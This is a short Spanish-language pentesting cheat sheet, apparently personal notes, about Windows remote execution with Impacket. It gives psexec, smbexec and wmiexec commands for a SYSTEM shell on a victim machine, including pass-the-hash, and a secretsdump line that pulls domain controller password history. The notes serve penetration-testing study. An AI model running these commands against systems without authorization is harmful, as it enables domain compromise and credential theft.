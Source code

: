 # Psexec

Tags: #Windows #DC #PsExec #WmiExec #SmbExec #Impacket 

```bash 
- Puerto 445 (SMB): Necesario para la ejecución remota de comandos utilizando el protocolo SMB.
- Puerto 135 (RPC): Puede ser necesario para la autenticación remota y la gestión de las conexiones.
```

## Impacket-Psexec

```powershell
❯ impacket-psexec domain.corp/Administrator:Password@IP cmd.exe     # Ingresar con una consola 'CMD' 'NT Authority\System'

❯ impacket-psexec administrator@IP cmd.exe      

	# user = Usuario Administrator'
	# IP = Dirección IP de la maquina víctima 
	# cmd = Ejecuta una consola 'CMD' al ingresar

❯ impacket-psexec domain.corp/'Administrator'@IP -hashes HASH :NT    # Hacer 'PtH' e ingresar a un 'CMD'

❯ impacket-psexec <Domain>/<User>:<Passwd>@<IP> cmd.exe  # Ingresar con una consola 'CMD'
```

## Impacket-Smbexec

```bash 
❯ impacket-smbexec.py administrator@IP -hashes LM:NT     # Podemos utilizar el metodo 'Pass-The-Hash' para ingresar como 'NT Authority\System'
```

## Impacket-Wmiexec 

```bash 
Otra herramienta por si no funcion 'PsExec'
❯ impacket-wmiexec.py administrator@IP -hashes LM:NT     # Podemos utilizar el metodo 'Pass-The-Hash' para ingresar como usuario admin 
```

## Impacket-SecretDump

```bash 
❯ impacket-secretdump -just-dc <Domain>/<User>:<Passwd>@<IP> -history -pwd-last-set   # Muestra el historial y cuando fue configurada la última contraseña
```